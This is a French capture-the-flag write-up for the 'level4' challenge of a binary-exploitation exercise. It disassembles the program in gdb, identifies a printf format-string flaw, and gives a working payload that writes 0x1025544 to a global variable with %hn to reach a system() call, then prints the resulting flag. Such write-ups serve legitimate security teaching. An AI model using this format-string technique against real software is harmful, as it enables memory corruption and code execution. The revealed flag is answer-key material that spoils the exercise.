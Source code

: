 # Level4

On observe un exécutable à la racine : `level4`

```shell
$ ./level4
Hello World
Hello World
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb level4 -q
Reading symbols from /home/user/level4/level4...(no debugging symbols found)...done.
(gdb) set disassembl
disassemble-next-line  disassembly-flavor
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   ebp
   0x080484a8 <+1>:     mov    ebp,esp
   0x080484aa <+3>:     and    esp,0xfffffff0
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave
   0x080484b3 <+12>:    ret
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   0x08048457 <+0>:     push   ebp
   0x08048458 <+1>:     mov    ebp,esp
   0x0804845a <+3>:     sub    esp,0x218
   0x08048460 <+9>:     mov    eax,ds:0x8049804
   0x08048465 <+14>:    mov    DWORD PTR [esp+0x8],eax
   0x08048469 <+18>:    mov    DWORD PTR [esp+0x4],0x200
   0x08048471 <+26>:    lea    eax,[ebp-0x208]
   0x08048477 <+32>:    mov    DWORD PTR [esp],eax
   0x0804847a <+35>:    call   0x8048350 <fgets@plt>
   0x0804847f <+40>:    lea    eax,[ebp-0x208]
   0x08048485 <+46>:    mov    DWORD PTR [esp],eax
   0x08048488 <+49>:    call   0x8048444 <p>
   0x0804848d <+54>:    mov    eax,ds:0x8049810
   0x08048492 <+59>:    cmp    eax,0x1025544
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    mov    DWORD PTR [esp],0x8048590
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave
   0x080484a6 <+79>:    ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,DWORD PTR [ebp+0x8]
   0x0804844d <+9>:     mov    DWORD PTR [esp],eax
   0x08048450 <+12>:    call   0x8048340 <printf@plt>
   0x08048455 <+17>:    leave
   0x08048456 <+18>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `level2`

```shell
$ scp -P 4242 -r level4@192.168.56.102:/home/user/level4/level4 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage level4
```

_résultat sauvegardé dans [source.md](source.md)_

Même exercice que `level3` mais cette fois `m` est comparé avec `0x1025544` et printf est dans une sous-fonction.

Dans un premier temps, on essaye d'afficher notre `AAAA` grâce au `%x` de printf en modifiant `i` dans `%i$x`.

On obtient `i = 12`

```shell
$ python -c 'print "AAAA %12$x"' | ./level4
AAAA 41414141
```

On remplace `AAAA` par l'adresse de `m` et on vérifie

```shell
$ python -c 'print "\x10\x98\x04\x08 %12$.8x"' | ./level4
 08049810
```

On doit maintenant changer la valeur de `m` grace au `%n` de printf mais `0x1025544` est trop gros pour le faire en une seule fois.
Nous allons donc écrire `0x0102` sur 2 octets et `0x5544` 2 octets plus loin pour former notre nombre final `0x1025544`

- <code>102<sub>16</sub> = 258<sub>10</sub> = les 8 caractères des deux adresses + 250 ' '.</code>
- <code>5544<sub>16</sub> = 21828<sub>10</sub> = 21570 ' ' + les 258 caractères déjà écrits.</code>

```shell
$ python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250d%12$hn%21570d%13$hn"' | ./level4
...
                                               -1073743996
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
